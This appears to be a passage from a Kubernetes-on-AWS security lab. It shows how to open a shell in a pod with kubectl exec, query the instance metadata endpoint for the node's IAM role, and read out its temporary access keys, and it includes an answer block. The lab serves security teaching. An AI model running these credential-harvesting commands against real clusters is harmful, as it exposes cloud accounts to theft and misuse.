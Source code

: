             !!! abstract "Expected Output"
                ```bash
                NAME            READY   STATUS    RESTARTS   AGE
                api-randomid    1/1     Running   0          2d21h
                ui-randomid     1/1     Running   0          2d21h
                ```

        - Use the `kubectl exec` command to obtain a shell on the `ui` pod.

            ```bash
            kubectl exec --stdin --tty -n hth ENTER_UI_POD_NAME -- /bin/bash
            ```


            !!! abstract "Expected Output"
                ```bash
                root@ui-randomid:/#
                ```

        - Once inside the pod, query the IMDS endpoint (169.254.169.254) to view the list of IAM roles with security credentials on the node.

            ```bash
            curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ && echo;
            ```

        - Use the role's name to view the role's temporary security credentials. Make a note of the **AccessKeyId**, **SecretAccessKey**, and **Token** values for the next step.

            ```bash
            curl http://169.254.169.254/latest/meta-data/iam/security-credentials/?????/ && echo;
            ```

            !!! abstract "Expected Output"
                ```bash hl_lines="4-6"
                {
                  ...
                  "Type" : "AWS-HMAC",
                  "AccessKeyId" : "?????",
                  "SecretAccessKey" : "?????",
                  "Token" : "?????",
                  ...
                }
                ```

        - Run the following command to exit the shell and return to your local machine.

            ```bash
            exit
            ```

    ??? success "Answer"

        The AWS IAM Role attached to the Kubernetes node is **hth-node-role-randomid**. Which tells you that the command to obtain temporary credentials is...
            
        ```bash
        curl http://169.254.169.254/latest/meta-data/iam/security-credentials/hth-node-role-randomid/
        ```
